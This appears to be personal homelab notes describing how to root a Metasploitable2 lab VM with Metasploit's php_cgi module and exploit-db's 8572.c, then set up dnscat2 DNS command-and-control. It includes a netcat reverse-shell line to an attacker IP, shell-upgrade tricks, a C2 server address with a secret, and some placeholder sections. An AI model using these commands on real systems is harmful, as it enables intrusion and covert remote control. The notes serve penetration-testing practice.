 ```yaml
---
title: A quick referesher of the homelab
categories: [homelab]
tags: [homelab, domain, dns, dnscat2]     # TAG names should always be lowercase
---
```


[home]
## Gain `root` access on metasploitable2
### Gain `www-data` user access:
```bash
# www-data service user access:
  # searchsploit
  searchsploit apache 2.2.8 # out: Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution 
```
msfconsole - metasploit:
	RHOSTS & RPORT- Address & PORT to access the webserver. 
```bash
use php_cgi
set RHOSTS 192.168.189.254
set RPORT 8080
set LPORT 80
run
```

### Gaining the root access:
nc listener on attacking machine: `sudo netcat -nlvp 443`

```bash
# meterpreter
cd /tmp
upload /usr/share/exploitdb/exploits/linux/local/8572.c ./exp.c
shell

# shell on meterpreter # exp needs "run"
echo '#!/bin/sh' > run
echo '/bin/netcat -e /bin/sh <attacker_ip> 443' >> run
gcc exp.c -o exp
chmod +x exp
cat /proc/net/netlink # search for a positive pid (udev's pid minus 1)
./exp 2708 # say 2708 the pid
```

nc listener on attacking machine: `whoami`
A better shell (on the attacking machine):
```bash
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
<ctr+z>
stty raw -echo; fg
```
==You should have the root access==

## Setup an authoritative DNS server:
If you are using AWS: [STOK’s video](https://www.youtube.com/watch?v=p8wbebEgtDk)
Else: (Still, watch that. It's a good learning src.) I made one: 
1. Spin up a droplet. [droplet_setup]
2. Setup domain
3. Set low ttl for each DNS record type:
4. [Get a domain name]
5. Add your ip as nameserver //need more info

## DNS based data exfiltration
Src: tryhackme.com //link
Steps:
1. kdjf

## C2 using dnscat2
Download dnscat2:

Server:
```zsh
# mkdir tools; cd tools; git clone dnscat2; cd dnscat2/server
sudo gem install bundler
sudo chown -R tlab /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install

sudo ruby ./dnscat2.rb tlab.site # your domain name
dnscat2> start --dns port=53531,domain=tlab.site # you'll get the secret value
# on client
sudo ./dnscat --dns port=53531,server=159.223.182.91 --secret=9101ccfc58f3f9af8
912718cc573d95e
# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	window -i 2 # go to the sh window
	

```

## Active Directory setup
1. Steps I used
2. I found a good link //link . Yeah, I did just that
